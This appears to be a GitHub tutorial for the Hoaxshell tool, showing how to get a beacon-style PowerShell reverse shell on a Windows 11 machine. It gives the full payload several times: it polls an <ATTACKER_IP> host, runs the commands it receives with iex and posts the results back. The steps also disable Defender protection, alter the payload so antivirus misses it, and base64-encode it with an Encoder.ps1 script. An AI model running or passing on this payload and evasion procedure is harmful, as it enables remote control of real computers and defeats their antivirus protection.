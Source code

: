 Refrence: [Hoaxshell](https://github.com/t3l3machus/hoaxshell)
- A Windows reverse shell payload generator and handler that abuses the http(s) protocol to establish a beacon-like reverse shell.
- [Live Tutorial](https://youtu.be/iElVfagdCD4?si=_42YOWV4nTvKtg2e)


# Windows 11 Endpoint

1. Launch PowerShell, and run the payload you have copied. You should get the error message below:

``` Powershell
At line:1 char:1
+ $s='<ATTACKER_IP>:8080';$i='9187fd93-ad5dffe2-4e843b87';$p='http://' ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
    + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent
```

2. Next, disable real-time and cloud-delivered protection in Windows security settings and run the payload again. This time, a shell will be created successfully on the attacker endpoint.

## Testing obfuscated hoaxshell payloads

For this test, enable real-time protection and cloud-delivered protection in Windows security settings on Windows 11. Exit any shells created on the attacker endpoint.

``` Python
python3 hoaxshell.py -s <ATTACKER_IP> -r -H "Authorization"
```

We Should Get Output like this:

``` Text
$s='<ATTACKER_IP>:8080';$i='5f8a6f53-558b0938-f763f78c';$p='http://';$v=Invoke-WebRequest -UseBasicParsing -Uri $p$s/5f8a6f53 -Headers @{"Authorization"=$i};while ($true){$c=(Invoke-WebRequest -UseBasicParsing -Uri $p$s/558b0938 -Headers @{"Authorization"=$i}).Content;if ($c -ne 'None') {$r=iex $c -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$t=Invoke-WebRequest -Uri $p$s/f763f78c -Method POST -Headers @{"Authorization"=$i} -Body ([System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' ')} sleep 0.8}
```

2.  Edit a copy of the payload by replacing all mentions of the variable $i with its value declared in the payload, and delete the variable declaration from the payload as shown below.

``` Text
$s='<ATTACKER_IP>:8080';$p='http://';$v=Invoke-WebRequest -UseBasicParsing -Uri $p$s/5f8a6f53 -Headers @{"Authorization"='5f8a6f53-558b0938-f763f78c'};while ($true){$c=(Invoke-WebRequest -UseBasicParsing -Uri $p$s/558b0938 -Headers @{"Authorization"='5f8a6f53-558b0938-f763f78c'}).Content;if ($c -ne 'None') {$r=iex $c -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$t=Invoke-WebRequest -Uri $p$s/f763f78c -Method POST -Headers @{"Authorization"='5f8a6f53-558b0938-f763f78c'} -Body ([System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' ')} sleep 0.8}
```

# Windows Endpoint Exploitation

1. Windows disables running scripts by default, you can enable running scripts by executing below command on a PowerShell terminal with administrator privileges:

```Powershell
set-executionpolicy remotesigned
```

2. Create a PowerShell script  **Encoder.ps1** to encode the edited payload into a valid PowerShell Base64 format:

```PowerShell
$command = @'
<INSERT THE PAYLOAD>
'@
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)
powershell.exe -encodedCommand $encodedCommand
```

3. Replace **<INSERT THE PAYLOAD>** with the payload from step 2:

```PowerShell
$command = @'
$s='<ATTACKER_IP>:8080';$p='http://';$v=Invoke-WebRequest -UseBasicParsing -Uri $p$s/5f8a6f53 -Headers @{"Authorization"='5f8a6f53-558b0938-f763f78c'};while ($true){$c=(Invoke-WebRequest -UseBasicParsing -Uri $p$s/558b0938 -Headers @{"Authorization"='5f8a6f53-558b0938-f763f78c'}).Content;if ($c -ne 'None') {$r=iex $c -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$t=Invoke-WebRequest -Uri $p$s/f763f78c -Method POST -Headers @{"Authorization"='5f8a6f53-558b0938-f763f78c'} -Body ([System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' ')} sleep 0.8}
'@
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)
powershell.exe -encodedCommand $encodedCommand
```

4. Execute the saved PowerShell script:

```PowerShell
>.\Encoder.ps1
```
